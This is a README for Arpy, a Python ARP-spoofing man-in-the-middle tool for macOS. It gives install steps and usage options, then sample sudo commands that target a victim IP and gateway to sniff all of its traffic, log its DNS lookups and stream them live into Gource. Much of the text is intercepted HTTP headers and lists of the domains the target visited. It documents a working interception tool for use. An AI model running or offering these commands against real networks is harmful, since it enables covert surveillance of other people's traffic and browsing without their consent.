 ![alt text][logo]

[logo]: https://github.com/ivanvza/arpy/blob/master/images/logo.png "Logo"
# Arpy
Arpy is an easy-to-use [ARP](https://tools.ietf.org/html/rfc826) spoofing MiTM tool for Mac.
It provides 3 targeted functions:
* Packet Sniffing
* Visited Domains
* Visited Domains with [Gource](https://code.google.com/p/gource/)

###### Each function will be explained below.

### Tested OS (to date)
* Darwin 14.3.0 Darwin Kernel Version 14.3.0 (Mac OS X)

## Requirements
* Python 2.7
* Gource
* Scapy

## Installation
#### Gource
```
brew install gource
```
#### Scapy
```
brew install scapy
```

## Sample Commands
```
ivanvza:~/ > arpy
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan

Usage: arpy -t <Target IP> -g <Gateway IP> -i <Interface>

ARP MiTM Tool

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        The Target IP
  -g GATEWAY, --gateway=GATEWAY
                        The Gateway
  -i INTERFACE, --interface=INTERFACE
                        Interface to use
  --sniff               Sniff all passing data
  --sniff-dns           Sniff only searched domains
  --sniff-dns-gource    Output target's DNS searches in gource format
```

## Packet Sniff
This is the packet sniffer, it allows you to see your target's traffic.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...

[Info] Found the following (IP layer): 192.168.1.4 -> 216.58.223.10
GET /ajax/libs/jquery/1.7.1/jquery.min.js HTTP/1.1
Host: ajax.googleapis.com
Connection: keep-alive
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.152 Safari/537.36
X-Client-Data: CKW1yQEIjrbJAQimtskBCKm2yQEIxLbJAQjriMoBCLWJygEIs5TKAQ==
Referer: http://stackoverflow.com/
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8,af;q=0.6

[Info] Found the following (IP layer): 216.58.223.10 -> 192.168.1.4
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Type: text/javascript; charset=UTF-8
Last-Modified: Mon, 02 Apr 2012 18:24:28 GMT
Date: Mon, 18 May 2015 17:26:10 GMT
Expires: Tue, 17 May 2016 17:26:10 GMT
Access-Control-Allow-Origin: *
Timing-Allow-Origin: *
X-Content-Type-Options: nosniff
Server: sffe
Content-Length: 33186
X-XSS-Protection: 1; mode=block
Cache-Control: public, max-age=31536000
Age: 79137
Alternate-Protocol: 80:quic,p=0

�Ľ�~�F�.�?��ʫ�!J�ҷ
```
## DNS Sniff
This function allows you to see domain names that your target is currently requesting.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns
    _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting DNS Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: www.youtube.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s2.googleusercontent.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: fonts.gstatic.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: yt3.ggpht.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: i.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
```
## DNS Sniff With Gource
This function is more or less the same as the above, however it provides the functionality to pass it through Gource to get a live feed of what your target is viewing.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns-gource
WARNING: No route found for IPv6 destination :: (no default route?)
[INFO] For a live gource feed run this command in parallel with this one:

tail -f parsed_domain_gource | tee /dev/stderr | gource -log-format custom -a 1 --file-idle-time 0 -
```
Sample Gource footage:
![alt text][gourve_live_footage]

[gourve_live_footage]: https://github.com/ivanvza/arpy/blob/master/images/arpy_live_gource.png "Live Gource Footage"

### Contact
@viljoenivan
